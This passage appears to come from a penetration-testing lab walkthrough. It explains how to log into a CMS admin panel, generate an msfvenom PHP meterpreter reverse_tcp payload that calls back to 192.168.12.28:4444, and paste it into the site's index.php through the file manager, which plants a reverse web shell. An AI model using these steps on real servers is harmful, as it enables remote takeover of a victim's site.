




5. Create a msfvenom php reverse
Once we've logged in you can go to a “file manager” on the Menu option “Content”

Click on “index.php” file.

On your Kali Linux create a msfvenom php reverse payload.
$msfvenom
-p php
/
meterpreter
/
reverse_tcp LHOST=192.168.12.28 LPORT=4444 > index.php
This command will create a file called “index.php”.
Click on the “index.php” file on the Victim Machine and opend it.

Here you can add the contents of your recently created payload.
Save the file.

Index